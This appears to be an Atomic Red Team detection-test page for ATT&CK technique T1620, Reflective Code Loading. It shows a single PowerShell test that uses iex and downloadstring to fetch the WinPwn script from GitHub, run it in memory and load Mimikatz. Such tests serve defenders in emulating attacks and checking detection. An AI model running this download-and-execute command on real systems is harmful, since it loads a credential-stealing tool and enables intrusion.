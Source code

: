 ```yaml
---
tags: [T1620, atomic_test]
filename: "[[T1620 - Reflective Code Loading]]"
---
```

# T1620 - Reflective Code Loading

## Atomic Test #1 - WinPwn - Reflectively load Mimik@tz into memory
Reflectively load Mimik@tz into memory technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 56b9589c-9170-4682-8c3d-33b86ecb5119






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
mimiload -consoleoutput -noninteractive
```






<br/>
